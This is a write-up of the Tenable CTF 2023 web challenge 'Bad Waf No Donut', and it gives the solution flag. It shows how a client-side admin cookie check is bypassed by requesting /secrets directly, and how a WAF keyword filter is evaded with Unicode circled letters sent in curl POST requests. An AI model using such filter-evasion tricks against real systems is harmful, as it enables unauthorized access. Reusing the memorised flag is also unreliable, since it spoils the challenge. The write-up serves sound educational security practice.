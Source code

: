 # Tenable Capture the Flag 2023

## Bad Waf No Donut

> I made a simple little backdoor into my network to test some things. Let me know if you find any problems with it.
>
>  Author: N/A
>

Tags: _web_

## Solution
The webapp given for this challenge has a simple list of links on the main page.

```
Ｗｅｌｃｏｍｅ！
𝐏𝐥𝐞𝐚𝐬𝐞 𝐬𝐞𝐥𝐞𝐜𝐭 𝐚𝐧 𝐨𝐩𝐭𝐢𝐨𝐧:

Explore
Render site
Check connection
```

None of the links brings very interesting results. But the html source of `Explore` has something:

```html

<html>
<body>

    <h1>Explore</h1>
    <div id="content">

    </div>
    
</body>
<script>
function isAdmin() {
  let cookie = decodeURIComponent(document.cookie);
  let cookie_values = cookie.split(';');
  for(let i = 0; i <cookie_values.length; i++) {
    let c = cookie_values[i];
    while (c.charAt(0) == ' ') {
      c = c.substring(1);
    }
    if (c.indexOf("admin") == 0) {
      if (c.substring(name.length, c.length).indexOf("true")) { return true; }
    }
  }
  return false;
}
if (isAdmin()){
    document.getElementById("content").innerHTML = '<a href="/secrets">secrets</a>';
}
else {
    document.getElementById("content").innerHTML = '<ul><li><a href="/books">books</a></li><li><a href="/cats">cats</a></li><li><a href="/shopping_list">shopping list</a></li></ul>';
}
</script>
</html>
```

There is a route `/secrets` which is shown if a `admin` cookie is present. We don't need the cookie, we can just navigate to secrets and are greetet with:

```
🅢🅔🅒🅡🅔🅣🅢
I only know one secret, but you gotta know how to ask.
```

Checking the code again we find another hint:
```html
<html>
<body>

    <h1>🅢🅔🅒🅡🅔🅣🅢</h1>
    <p>I only know one secret, but you gotta know how to ask.</p>
    <!-- Try asking with a "secret_name" post parameter -->
    
</body>
</html>
```

Sending queries like are gettings answered with this smiley, not very helpful. 
```bash
$ curl -X POST https://nessus-badwaf.chals.io/secrets -H "Content-Type: application/x-www-form-urlencoded" -d "secret_name=flag_please"
🤐
```

But after just entering the word `flag`, the response is a bit more descriptive. Apparently the word is correct, but not asked in *the right way*. But what's the right way? The server gives back smileys which are unicode characters. Sending a flag character didn't do the trick.
```bash
$ curl -X POST https://nessus-badwaf.chals.io/secrets -H "Content-Type: application/x-www-form-urlencoded" -d "secret_name=flag"
🤐You know what to ask for, but you're not asking correctly.
```

But on the secrets page another hint is given: 🅢🅔🅒🅡🅔🅣🅢. Maybe `flag` needs the be written in the same fashion? After trying out a few variants this one worked:

```bash
$ curl -X POST https://nessus-badwaf.chals.io/secrets -H "Content-Type: application/x-www-form-urlencoded" -d "secret_
name=ⓕⓛⓐⓖ"
flag{h0w_d0es_this_even_w0rk}
```

Flag `flag{h0w_d0es_this_even_w0rk}`
